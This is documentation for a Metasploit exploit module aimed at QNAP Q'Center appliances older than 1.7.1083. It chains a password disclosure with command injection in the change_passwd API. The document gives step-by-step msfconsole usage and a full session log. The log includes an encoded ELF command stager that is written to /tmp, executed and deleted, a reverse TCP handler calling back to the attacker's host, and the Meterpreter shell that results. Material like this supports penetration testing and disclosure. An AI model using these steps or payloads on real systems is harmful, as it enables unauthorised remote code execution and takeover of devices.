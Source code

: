 ## Description

  This module exploits a command injection vulnerability in the
  `change_passwd` API method within the web interface of QNAP Q'Center
  virtual appliance versions prior to 1.7.1083.

  The vulnerability allows the `admin` privileged user account to
  execute arbitrary commands as the `admin` operating system user.

  Valid credentials for the `admin` user account are required, however,
  this module also exploits a separate password disclosure issue which
  allows any authenticated user to view the password set for the `admin`
  user during first install.


## Vulnerable Application
 
  [QNAP Q'Center](https://www.qnap.com/solution/qcenter/index.php) is a central
  management platform that enables you to consolidate the management of multiple
  QNAP NAS devices.

  This module has been tested successfully on QNAP Q'Center appliance
  version 1.6.1075.


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/linux/http/qnap_qcenter_change_passwd_exec`
  3. `set RHOSTS <IP>`
  4. `set USERNAME <USERNAME>` (default: `admin`)
  5. `set PASSWORD <PASSWORD>` (default: `admin`)
  6. `run`
  7. You should get a session


## Options

  **USERNAME**

  Username for the application. (default: `admin`)

  **PASSWORD**

  Password for the application. (default: `admin`)


## Scenarios

  ```
  msf > use exploit/linux/http/qnap_qcenter_change_passwd_exec 
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > set rhosts 10.1.1.112
  rhosts => 10.1.1.112
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > set verbose true
  verbose => true
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > check
  
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [*] 10.1.1.112:443 The target appears to be vulnerable.
  msf exploit(linux/http/qnap_qcenter_change_passwd_exec) > run
  
  [*] Started reverse TCP handler on 10.1.1.197:4444 
  [*] Target is QNAP Q'Center appliance version 1.6.1075
  [+] Authenticated as user 'admin' successfully
  [*] Sending payload ...
  [*] Generated command stager: ["printf '\\177\\105\\114\\106\\1\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\3\\0\\1\\0\\0\\0\\124\\200\\4\\10\\64\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\64\\0\\40\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\0\\0\\0\\0\\0\\200\\4\\10\\0\\200\\4\\10\\317\\0\\0\\0\\112\\1\\0\\0\\7\\0\\0\\0\\0\\20\\0\\0\\152\\12\\136\\61\\333\\367\\343\\123\\103\\123\\152\\2\\260\\146\\211\\341\\315\\200\\227\\133\\150\\12\\1\\1\\305\\150\\2\\0\\21\\134\\211\\341\\152\\146\\130\\120\\121\\127\\211\\341\\103\\315\\200\\205\\300\\171\\31\\116\\164\\75\\150\\242\\0\\0\\0\\130\\152\\0\\152\\5\\211\\343\\61\\311\\315\\200\\205\\300\\171\\275\\353\\47\\262\\7\\271\\0\\20\\0\\0\\211\\343\\301\\353\\14\\301\\343\\14\\260\\175\\315\\200\\205\\300\\170\\20\\133\\211\\341\\231\\266\\14\\260\\3\\315\\200\\205\\300\\170\\2\\377\\341\\270\\1\\0\\0\\0\\273\\1\\0\\0\\0\\315\\200'>>/tmp/ivFxR ; chmod +x /tmp/ivFxR ; /tmp/ivFxR ; rm -f /tmp/ivFxR"]
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (861480 bytes) to 10.1.1.112
  [*] Command Stager progress - 100.00% done (701/701 bytes)
  
  meterpreter > getuid
  Server username: uid=1001, gid=1001, euid=1001, egid=1001
  meterpreter > sysinfo
  Computer     : 10.1.1.112
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

